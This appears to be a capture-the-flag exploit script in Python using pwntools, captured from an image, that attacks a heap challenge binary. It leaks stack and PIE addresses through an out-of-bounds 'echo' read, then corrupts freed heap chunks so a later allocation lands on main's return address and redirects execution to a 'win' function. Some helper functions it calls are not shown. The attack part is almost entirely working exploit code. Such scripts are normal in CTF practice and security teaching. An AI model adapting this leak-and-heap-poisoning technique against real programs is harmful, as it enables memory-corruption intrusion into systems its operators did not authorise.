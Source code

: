 ```python


def echo(idx, offset):
    target.sendlineafter(b": ", b"echo")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Offset: ", str(offset).encode())


def read(idx, size):
    target.sendlineafter(b": ", b"read")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    malloc(0, 0)
    echo(0, 0x28)

    target.recvuntil(b"Data: ")
    stack = int.from_bytes(target.recvline().strip(), "little")
    main_ret_addr = stack + 0x176

    echo(0, 0x50)
    target.recvuntil("Data: ")
    pie = int.from_bytes(target.recvline().strip(), "little") - 0x33F8
    win = pie + elf.sym["win"]

    target.success(f"stack: {hex(stack)}")
    target.success(f"pie: {hex(pie)}")
    target.success(f"win: {hex(win)}")

    malloc(0, 0)
    malloc(1, 0)
    malloc(2, 0)
    free(2)
    free(1)
    # raw_input("DEBUG")
    read(0, 0x1337)

    payload = flat(
        b"A" * 0x20,
        main_ret_addr,
    )
    target.sendline(payload)

    malloc(0, 0)
    # raw_input("DEBUG")
    malloc(0, 0)

```